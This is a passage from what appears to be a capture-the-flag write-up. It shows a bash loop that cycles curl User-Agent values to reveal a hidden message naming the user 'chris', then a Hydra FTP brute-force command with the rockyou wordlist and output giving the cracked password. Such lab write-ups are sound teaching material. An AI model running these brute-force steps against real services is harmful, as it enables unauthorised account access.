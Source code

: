 ```
</p>
</body>
</html>
```

- It seems like this just gives us the content of the page again. Maybe another letter will work. We could do this manually, or we could script this out to automate the process. Here is what I used:
```sh
#!/bin/bash

# Replace 'target-ip' with the actual IP address or URL
TARGET_IP="target-ip"

# Iterate through every letter of the alphabet
for letter in {A..Z}; do
    echo "Sending request with User-Agent: $letter"
    curl -A "$letter" -L $TARGET_IP
done
```

- It is important to note that I added the `-L` flag to follow any redirects. Here is a snippet of the relevant output that reveals a little more information that we can use to our advantage:
```html
Sending request with User-Agent: C
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

- This gives us a few things. First, we may have a potential username of `chris`, since that was referenced in the message. Additionally, we know Agent C has a weak password that we may be able to brute-force. Finally, there is a reference to Agent J, which could also be a potential lead. However, it is important to note that Agent J did not receive a message like the one from Agent C and Agent R when we used the `curl` command. 
- Let's pivot and try to do some brute-forcing. There are a few services we can target with something like [Hydra](https://github.com/vanhauser-thc/thc-hydra), the username `chris`, and a password list. Let's start with FTP. The syntax to do this will look something like this:
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://target-ip
```

- Here is the output:
```python
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-12-12 19:35:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://target-ip:21/
[21][ftp] host: target-ip   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-12 19:37:00
```
